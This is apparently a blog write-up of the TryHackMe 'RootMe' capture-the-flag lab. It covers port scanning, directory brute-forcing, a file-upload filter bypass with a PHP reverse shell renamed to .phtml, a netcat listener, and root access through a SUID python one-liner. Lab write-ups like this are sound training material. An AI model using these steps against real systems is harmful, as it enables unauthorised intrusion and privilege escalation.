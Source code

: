 ```yaml
---
layout: post
title:  "Tryhackme: RootMe"
date:   2021-02-01 19:57:56 +0200
categories: tryhackme
---
```


## Nmap Scan ##

### Initial Port Scan ###
```
sudo nmap -sS -p- -Pn -T5 -vv 10.10.80.111
```
```
Nmap scan report for 10.10.80.111
Host is up, received user-set (0.058s latency).
Scanned at 2021-01-31 17:07:37 EST for 567s
Not shown: 65527 closed ports
Reason: 65527 resets
PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack ttl 63
80/tcp    open     http    syn-ack ttl 63
3632/tcp  filtered distccd no-response
11058/tcp filtered unknown no-response
44962/tcp filtered unknown no-response
45389/tcp filtered unknown no-response
51200/tcp filtered unknown no-response
55178/tcp filtered unknown no-response
```
Ok, so other than port 80 and 22 the rest are possibly behind a firewall or are just running services configured to not respond back.
### Targeted Port Scan ###
```
sudo nmap -sSCV -T5 -vv 10.10.80.111 -p22,80
```
```
Nmap scan report for 10.10.80.111
Host is up, received echo-reply ttl 63 (0.055s latency).
Scanned at 2021-01-31 17:19:36 EST for 22s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
|   256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC4fnU3h1O9PseKBbB/6m5x8Bo3cwSPmnfmcWQAVN93J
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
## Directory Bruteforcing ##
```
gobuster dir -u http://10.10.80.111/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 16
```
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.80.111/
[+] Threads:        16
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/31 17:09:32 Starting gobuster
===============================================================
/uploads (Status: 301)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
===============================================================
```
## File Upload ##
Trying to simply upload Kali's already existing ```/usr/share/webshells/php/php-reverse-shell.php``` will yield us an error:
![No PHP allowed img](/assets/images/RootMe/NoPHP.png)
Trying out to rename the file with a ```jpeg``` extension however, will allow us to upload the reverse shell to the remote server:
```
mv php-reverse-shell.php php-reverse-shell.php.jpeg
```
![JPEG allowed img](/assets/images/RootMe/JPEGYes.png)
Accessing the file through the ```uploads``` directory discovered in the previous we encounter an error, due to the server not knowing how to execute this file:
```
The image “http://10.10.80.111/uploads/php-reverse-shell.php.jpeg” cannot be displayed because it contains errors.
```
Let's try with another format:
```
mv php-reverse-shell.php php-reverse-shell.phtml
```
It works! Let's start our netcat listener and get our reverse shell:
```
nc -lvnp 1234
```
### Shell Stabilisation ###
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.4$ export TERM=xterm
export TERM=xterm
bash-4.4$ ^Z
zsh: suspended  nc -lvnp 1234
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg                                                                                   148 ⨯ 1 ⚙
[1]  + continued  nc -lvnp 1234

bash-4.4$ 
```

### Getting user flag ###
```
bash-4.4$ find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
bash-4.4$ cat /var/www/user.txt
```

## Privilege Escalation ##
If we look for binaries that have the ```SUID``` bit set
```
bash-4.4$ find / -type f -perm -u=s 2>/dev/null
```
```
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```
We notice that the ```python``` binary has the ```SUID``` bit set.
And thus, we can easily get a root shell with the following command:
```
bash-4.4$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# cat /root/root.txt
```